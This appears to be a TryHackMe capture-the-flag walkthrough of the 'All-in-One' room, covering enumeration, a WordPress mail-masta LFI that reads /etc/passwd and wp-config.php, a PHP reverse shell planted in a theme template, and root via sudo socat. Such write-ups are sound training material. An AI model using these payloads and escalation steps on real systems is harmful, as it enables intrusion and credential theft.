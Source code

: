 # TryHackMe - All-in-One Walkthrough

This write-up covers the steps I took to complete the "[All-in-One](https://tryhackme.com/room/allinonemj)" room on TryHackMe.  
The machine focuses on WordPress exploitation, LFI, privilege escalation, and is a great challenge for anyone looking to sharpen their penetration testing skills.

Below you'll find the full process I followed — from enumeration to privilege escalation.

> ⚠️ This write-up contains spoilers. Proceed only if you've already tried the machine or are stuck.

# 1. Port Scanning
👁️ Using nmap:
```python
nmap -sC -sV -oN result 10.10.49.154
````
Result:
```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
````
# 2. FTP Enumeration
Anonymous login is allowed:
```python
ftp 10.10.49.154
````
However, no useful files were found.
# 3. Directory Enumeration (Gobuster)
```python
gobuster dir -u http://10.10.49.154 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50
````
Interesting findings:
```python
/wordpress (301)
/index.html (200)
````
Re-scan on /wordpress:
```python
gobuster dir -u http://10.10.49.154/wordpress -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
````
Key files discovered:
```python
wp-login.php
wp-config.php
wp-mail.php (403)
xmlrpc.php, wp-cron.php, etc
````
# 4. LFI Exploitation via mail-masta Plugin
Researching leads to a known vulnerability:
```python
https://www.exploit-db.com/exploits/40290
````
Local File Inclusion (LFI) test:
```python
http://10.10.49.154/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
````
To read sensitive files like wp-config.php, we used Base64 encoding:
```python
http://10.10.49.154/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
````
Decoded Base64 output reveals:
```python
DB_USER: elyana  
DB_PASSWORD: ********
````
# 5. WordPress Login and Shell Upload
1 Login to /wp-login.php as user elyana

2 Navigate to Appearance > Theme Editor > 404.php

3 Upload a PHP reverse shell into the 404 template

Listener setup:
```python
nc -lvnp 4444
````
Trigger reverse shell:
```python
http://10.10.49.154/wordpress/wp-content/themes/twentytwenty/404.php
````
#  Privilege Escalation
We inspect config files:
```python
cd /etc/mysql/conf.d
cat private.txt
````
Found additional credentials:
```python
user: elyana
password: ********
````
SSH into the machine:
```python
ssh elyana@10.10.49.154
````
Retrieve the user flag:
```python
cat user.txt
````
# Root Privileges via socat
Check sudo rights:
```python
sudo -l
````
Output:
```python
(ALL) NOPASSWD: /usr/bin/socat
````

From GTFOBins:
```python
https://gtfobins.github.io/gtfobins/socat/
````
```python
sudo socat stdin exec:/bin/sh
````
Now root:
```python
whoami
root
cat /root/root.txt
````
 # <b>This was my first ever write-up, and I truly hope it was helpful to someone out there.  
Thanks for reading, and happy hacking!</b>
